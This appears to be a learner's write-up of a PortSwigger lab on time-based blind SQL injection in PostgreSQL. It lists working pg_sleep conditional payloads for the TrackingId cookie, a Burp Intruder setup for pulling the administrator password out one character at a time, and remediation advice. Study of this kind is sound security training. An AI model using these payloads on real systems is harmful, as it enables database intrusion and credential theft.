







## LAB-16 BLIND SQL INJECTION WITH TIME DELAYS AND INFORMATION RETRIEVAL

## LAB : [PortSwigger Lab 16 Link](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-and-information-retrieval)

## What?

**Time-based Blind SQL Injection** on a **PostgreSQL** database using **conditional delays** to extract data. The application gives zero output, zero errors, and zero boolean signals — only response time reveals the answer.

## Where?

* **Page:** Front page of the shop
* **Method:** `GET` (cookie-based)
* **Parameter:** `TrackingId` cookie
* **No auth required**

## How did I find it?

Already confirmed time-based injection from previous lab using:

```plain id="5x9m2k"
TrackingId=x'||pg_sleep(10)--
```



→ 10 second delay confirmed PostgreSQL + synchronous query execution.

## How did I verify it?

### Step 1 — Confirm conditional delays work:

```plain id="7q3n6v"
TrackingId=x';SELECT
CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```



→ 10 second delay (condition true)

```plain id="2m8w4p"
TrackingId=x';SELECT
CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

→ Immediate response (condition false)

### Step 2 — Confirm administrator exists:

```plain id="9k5c1r"
TrackingId=x';SELECT
CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END
FROM users--
```



→ 10 second delay = user exists

### Step 3 — Determine password length:

Tested boundary conditions:

```plain id="4v7p2n"
'||(SELECT
CASE WHEN(username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10)
ELSE pg_sleep(0) END FROM users)--
```



→ 10s delay (true, password > 1 char)

```plain id="6d3x8m"
'||(SELECT
CASE WHEN(username='administrator' AND LENGTH(password)>25) THEN
pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```



→ Immediate (false, password ≤ 25)

Binary searched with Intruder → **password length = 20**

### Step 4 — Extract password character-by-character:

Used **Burp Intruder Cluster Bomb** with two payload positions:

```plain id="1q9s5w"
'||(SELECT
CASE WHEN(username='administrator' AND SUBSTR(password,§1§,1)='§a§') THEN
pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```





* **Position 1:** Character offset (1–20)
* **Position 2:** Character value (a–z, 0–9)
* **Resource pool:** Max 1 concurrent request (timing accuracy)

Filtered results by **Response received** column — ~10,000ms = true condition.

**Extracted password:** 999ig8x5gah7s20414q6

## Why does it work?

The payload uses **stacked queries** (`;`) or subquery injection to execute a second query:

```sql id="8c4r6y"
SELECT
* FROM tracking WHERE id = 'x';

SELECT
CASE WHEN (condition) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users
```

* `CASE WHEN` evaluates the boolean condition
* If **true** → `pg_sleep(10)` executes → 10 second delay
* If **false** → `pg_sleep(0)` executes → immediate response
* The application waits synchronously for the database → delay is observable
* Each character is tested individually; the one causing ~10s delay is correct

## What can an attacker do?

* Extract any data from the database when **no output, no errors, no boolean signals** exist
* Enumerate schema, tables, columns entirely through timing
* Steal credentials, PII, or any accessible data one bit at a time
* Bypass WAFs and filters that block visible data exfiltration

## What are the conditions/limitations?

* **Truly blind** — absolutely no feedback except time
* Requires **synchronous query execution** (database blocks until `pg_sleep` finishes)
* **Very slow** — 20 chars × ~36 guesses = 720+ requests, each potentially 10 seconds
* Network latency and server load cause **timing variance** — need multiple samples or thresholds
* Must use **single-threaded requests** for accurate timing measurement
* Stacked queries (`;`) require database support + application not filtering semicolons

## How should it be fixed?

**Primary:** Use **parameterized queries** so `TrackingId` is bound as data.

**Defense-in-depth:**

* Set **query timeouts** (`statement_timeout` in PostgreSQL)
* Use **asynchronous processing** where possible
* Monitor for anomalous response times and repeated `pg_sleep` patterns
* Filter or reject `;`, `pg_sleep`, `SLEEP`, `WAITFOR` in input

## What did I learn?

I learned that **time is the ultimate side channel** when everything else is stripped away. No output, no errors, no "Welcome back" — just the clock. I also learned that `pg_sleep(0)` still executes (just instantly), so the ELSE branch doesn't save time — it just avoids the delay. The real optimization is using **binary search for length** instead of incrementing one by one. Most importantly, I learned that **single-threaded Intruder attacks are mandatory** for timing-based extraction — concurrent requests destroy timing accuracy.

## What was the key obstacle?

**Timing accuracy.** With concurrent requests, network jitter, and server load, a 10-second delay sometimes looked like 8 seconds or 12 seconds. Setting the Intruder resource pool to **1 concurrent request** was critical. I also initially tried `||` concatenation with subqueries, but the stacked query approach (`;SELECT CASE...`) was cleaner and more reliable for forcing execution. The patience required — watching 720 requests crawl by at 10 seconds each — was the real test.
